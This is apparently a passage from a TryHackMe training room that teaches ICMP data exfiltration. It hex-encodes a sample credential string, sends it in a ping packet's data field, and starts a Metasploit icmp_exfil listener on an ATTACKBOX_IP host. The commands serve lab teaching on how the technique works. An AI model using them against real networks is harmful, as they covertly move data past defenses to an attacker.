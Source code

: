 ```markup
root@AttackBox$ echo "thm:tryhackme" | xxd -p 
74686d3a7472796861636b6d650a
```

We used theÂ xxdÂ command to convert our string to Hex, and then we can use theÂ pingÂ command with the Hex value we got from converting theÂ thm:tryhackme.

Send Hex using the ping command.  

```markup
root@AttackBox$ ping 10.10.39.16 -c 1 -p 74686d3a7472796861636b6d650a
```

We sent one ICMP packet using the ping command withÂ thm:tryhackmeÂ Data. Let's look at the Data section for this packet in the Wireshark.

![Checking Data Field in Wireshark](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/6a086470f770c67c0a07f9572088e5e1.png)  

Excellent! We have successfully filled the ICMP's Data section with our data and manually sent it over the network using theÂ pingÂ command.

## ICMP Data Exfiltration

Now that we have the basic fundamentals of manually sending data over ICMP packets, let's discuss how to useÂ MetasploitÂ to exfiltrate data. TheÂ MetasploitÂ framework uses the same technique explained in the previous section. However, it will capture incoming ICMP packets and wait for a Beginning of File (BOF) trigger value. Once it is received, it writes to the disk until it gets an End of File (EOF) trigger value. The following diagram shows the required steps for theÂ MetasploitÂ framework. Since we need theÂ MetasploitÂ Framework for this technique, then we need the AttackBox machine to perform this attack successfully.

![ICMP Data Exfiltration](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b45715c44b5998fa9bf6a989b1e0d8d6.png)  

Now from theÂ **AttackBox**, let's set up theÂ MetasploitÂ framework by selecting theÂ icmp_exfilÂ module to make it ready to capture and listen for ICMP traffic.Â One of the requirements for this module is to set theÂ BPF_FILTERÂ option, which is based on TCPDUMP rules,Â to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows,

Set the BPF_FILTER in MSFÂ   

```markup
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP
```

We also need to select which network interface to listen to,Â eth0. Finally, executesÂ runÂ to start the module.

Set the interface in MSF  

```markup
msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0
INTERFACE => eth0
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
```
